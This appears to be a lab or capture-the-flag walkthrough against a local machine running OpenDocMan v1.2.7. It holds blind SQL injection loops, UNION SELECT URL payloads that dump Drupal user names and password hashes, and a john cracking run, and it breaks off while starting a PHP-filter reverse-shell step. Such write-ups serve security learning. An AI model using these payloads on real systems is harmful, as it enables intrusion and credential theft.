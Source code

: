 kali@kali:~$ for((h=1; h<=14; h++)); do for i in {32..126}; do RES=$(./injector.sh "(select hex(substr(user(),$h,1)))=hex($i)"); if [[ $RES == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done; done; echo ""  
>root@localhost  

kali@kali:~$ for i in {1..20}; do RES=$(./injector.sh "(select length(user()))=$i"); if [[ $RES == 1 ]]; then echo "[+]Length found: $i";fi; done  
>[+]Length found: 8  

kali@kali:~$ for((h=1; h<=8; h++)); do for i in {32..126}; do RES=$(./injector.sh "(select hex(substr(database(),$h,1)))=hex($i)"); if [[ $RES == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done; done; echo ""  
>jabcd0cs  

**Couldn't go any further :(**  

**Googling version**  

OpenDocMan v1.2.7  

https://www.exploit-db.com/exploits/32075/  

http://192.168.1.76/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,schema_name,3,4,5,6,7,8,9%20from%20information_schema.schemata
>information_schema  
>drupal7  
>jabcd0cs  
>mysql  
>performance_schema  
>phpmyadmin  

http://192.168.1.76/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,name,3,4,5,6,7,8,9%20from%20drupal7.users
>webmin

http://192.168.1.76/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,pass,3,4,5,6,7,8,9%20from%20drupal7.users
>$S$DPc41p2JwLXR6vgPCi.jC7WnRMkw3Zge3pVoJFnOn6gfMfsOr/Ug

kali@kali:~$ sudo john pass  
>Using default input encoding: UTF-8  
>Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])  
>Press 'q' or Ctrl-C to abort, almost any other key for status  
>webmin1980        

### REVERSE SHELL

**Found login info in http://192.168.1.76/jabc/robots.txt**

http://192.168.1.76/jabc/?q=user

**Login as admin and enable PHP module**

>PHP filter  
>	7.26	Allows embedded PHP code/snippets to be evaluated.  
>

**Change theme and enable it as PHP Code**
